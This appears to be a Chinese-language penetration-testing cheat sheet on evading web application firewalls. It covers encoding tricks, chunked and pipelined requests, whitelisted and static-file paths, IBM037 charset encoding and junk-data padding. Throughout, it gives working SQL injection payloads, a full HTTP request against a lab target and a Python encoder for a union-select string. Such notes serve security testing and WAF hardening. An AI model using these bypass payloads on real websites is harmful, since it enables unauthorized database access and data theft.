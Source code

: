 # WAF Bypass
## 编码绕过
URL编码\
2次URL编码

## 生僻函数绕过
使用生僻函数替代常见的函数，例如在报错注入中使用 polygon()函数替换常用的 updatexml()函数
select polygon((select * from (select * from (select @@version) f) x));

## 分块传输绕过
### 什么是 chunked 编码？
分块传输编码（Chunked transfer encoding）是只在 HTTP 协议 1.1 版本（HTTP/1.1）中提供的一种数据传送机制。以往 HTTP 的应答中数据是整个一起发送的，并在应答头里 Content-Length 字段标识了数据的长度，以便客户端知道应答消息的结束。\
传统的 Content-length 解决方案：计算实体长度，并通过头部告诉对方。浏览器可以通过 Content-Length的长度信息，判断出响应实体已结束。\
Content-length 面临的问题：由于 Content-Length 字段必须真实反映实体长度，但是对于动态生成的内容来说，在内容创建完之前，长度是不可知的。\
这时候要想准确获取长度，只能开一个足够大的 buffer，等内容全部生成好再计算。这样做一方面需要更大的内存开销，另一方面也会让客户端等更久。\
我们需要一个新的机制：不依赖头部的长度信息，也能知道实体的边界——分块编码（Transfer-Encoding:chunked）。\
对于动态生成的应答内容来说，内容在未生成完成前总长度是不可知的。因此需要先缓存生成的内容，再计算总长度填充到 Content-Length，再发送整个数据内容。这样显得不太灵活，而使用分块编码则能得到改观。\
分块传输编码允许服务器在最后发送消息头字段。例如在头中添加散列签名。对于压缩传输传输而言，可以一边压缩一边传输。

### 分块传输工具
burpsuite插件：`chunked-coding-converter`

## 白名单绕过
有些 WAF 会自带一些文件白名单，对于白名单 waf 不会拦截任何操作，所以可以利用这个特点，可以试试白名单绕过。\
白名单通常有目录：
```http
/admin
/phpmyadmin
/admin.php
```

## 静态文件绕过
除了白名单信任文件和目录外，还有一部分 waf 并不会对静态文件进行拦截。\
例如 图片文件 jpg 、png 、gif 或者 css 、js 会对这些静态文件的操作不会进行检测从而绕过 waf 拦截。\
```http
/1.jpg&name=vince+&submit=1
/1.jpg=/1.jpg&name=vince+&submit=1
/1.css=/1.css&name=vince+&submit=1
```

## pipline 绕过注入
http 协议是由 tcp 协议封装而来，当浏览器发起一个 http 请求时，浏览器先和服务器建立起连接 tcp 连接，然后发送 http 数据包（即我们用 burpsuite 截获的数据），其中包含了一个 Connection 字段，一般值为 close，apache 等容器根据这个字段决定是保持该 tcp 连接或是断开。当发送的内容太大，超过一个http 包容量，需要分多次发送时，值会变成 keep-alive，即本次发起的 http 请求所建立的 tcp 连接不断开，直到所发送内容结束 Connection 为 close 为止用 burpsuite 抓包提交 复制整个包信息放在第一个包最后，把第一个包 close 改成 keep-alive 把brupsuite 自动更新 Content-Length 勾去掉。

## http 相同参数请求绕过
waf 在对危险字符进行检测的时候，分别为 post 请求和 get 请求设定了不同的匹配规则，请求被拦截，变换请求方式有几率能绕过检测。如果程序中能同时接收 get、post 如果 waf 只对 get 进行匹配拦截，没有对 post 进行拦截。\
```php
<?php
echo $_REQUEST['id'];
?>
```

## HTTP 数据编码绕过
编码绕过在绕 waf 中也是经常遇到的，通常 waf 只坚持他所识别的编码，比如说它只识别 utf-8 的字符，但是服务器可以识别比 utf-8 更多的编码。\
那么我们只需要将 payload 按照 waf 识别不了但是服务器可以解析识别的编码格式即可绕过。
比如请求包中我们可以更改 Content-Type 中的 charset 的参数值，我们改为 ibm037 这个协议编码，有些服务器是支持的。payload 改成这个协议格式就行了。\
```http
```http
POST /06/vul/sqli/sqli_id.php HTTP/1.1
Host: 192.168.0.115
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded;charset:ibm037
Content-Length: 33
Connection: close
Cookie: PHPSESSID=e6sa76lft65q3fd25bilbc49v3; security_level=0
Upgrade-Insecure-Requests: 1
%89%84=%F1&%A2%A4%82%94%89%A3=%F1
```
透过 Content-Type 的 charset 绕过 waf#

未编码
```http
id=123&pass=pass%3d1
```

透过 IBM037 编码
```http
%89%84=%F1%F2%F3&%97%81%A2%A2=%97%81%A2%A2~%F1
```

在提交的 http header
```http
Content-Type: application/x-www-form-urlencoded; charset=ibm037
```

```python
import urllib.parse
s = 'id=-1 union select 1,user()-- &submit=1'
ens=urllib.parse.quote(s.encode('ibm037'))
print(ens)
```

## 填充垃圾数据
可以使用 select 0xA 运行一些字符从绕突破一些 waf 拦截\
`id=1 and (select 1)=(select
0xAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA)/*!union*//*!select*/1,user()`\
post 编码：\
`1+and+(select+1)%3d(select+0xAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA)/*!union*//*!select*
/1,user()&submit=1`

## 填充垃圾请求头

## Unicode 规范化

详见以下文件：https://gitcode.net/taochiyudadada/Penetration_Testing_POC/-/raw/master/books/Unicode%E7%9A%84%E8%A7%84%E8%8C%83%E5%8C%96%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E%E6%8C%96%E6%8E%98%E6%80%9D%E8%B7%AF%E5%AE%9E%E6%93%8D.pdf?inline=false\
https://jlajara.gitlab.io/web/2020/02/19/Bypass_WAF_Unicode.html